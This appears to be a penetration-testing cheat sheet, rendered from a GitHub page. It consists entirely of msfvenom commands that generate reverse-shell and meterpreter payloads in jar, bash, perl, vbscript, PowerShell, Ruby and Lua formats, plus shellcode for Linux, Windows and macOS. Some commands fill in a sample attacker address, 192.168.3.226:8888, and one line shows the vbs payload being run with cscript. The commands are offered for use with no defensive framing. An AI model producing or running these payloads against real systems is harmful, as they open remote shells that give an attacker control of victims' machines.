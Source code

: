 **jar**
```bash
msfvenom -p java/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f raw -o shell.jar
```

**bash**
```bash
msfvenom -p cmd/unix/reverse_bash lhost=your-ip lport=your-port -f raw > shell.sh
```

**perl**
```bash
msfvenom -p cmd/unix/reverse_perl lhost=your-ip lport=your-port -f raw > shell.pl
```

**vbscript**
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port exitfunc=thread -f vbs -a x86 --platform windows > shell.vbs
C:\Documents and Settings\Administrator>cscript shell.vbs
```

**Powershell**
```bash
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1

msfvenom -a x86 --platform windows -p windows/powershell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -e cmd/powershell_base64 -i 3 -f raw -o x86_shell.ps1

msfvenom -a x64 --platform windows -p windows/x64/powershell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -e cmd/powershellbase64 -i 3 -f raw -o x64_shell.ps1
```

**Ruby**
```bash
msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f raw -o payload.rb
```

**Lua**
```bash
msfvenom -p cmd/unix/reverse_lua LHOST=192.168.3.226 LPORT=8888 -f raw -o payload.lua
```

##### shellcode

**linux based shellcode**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f <language>
```

**windows based shellcode**
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f <language>
```

**mac based shellcode**
```bash
msfvenom -p osx/x86/shell_reverse_tcp lhost=your-ip lport=your-port -f <language>
```

---